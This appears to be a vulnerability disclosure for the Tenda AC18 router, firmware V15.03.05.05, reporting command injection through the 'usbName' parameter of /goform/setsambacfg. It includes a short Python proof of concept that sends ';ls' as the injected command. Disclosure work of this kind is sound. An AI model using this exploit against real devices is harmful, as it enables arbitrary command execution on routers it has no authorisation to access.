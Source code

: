## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

In Tenda AC18 V15.03.05.05 firmware, we discovered a command injection vulnerablility in the `usbName` parameter and the `v9`varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `usbName` can trigger this security vulnerability.

![image-20240316183617956](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316183617956.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setsambacfg"
payload = ";ls"

data = {"action":"del","usbName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316180711436](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180711436.png)
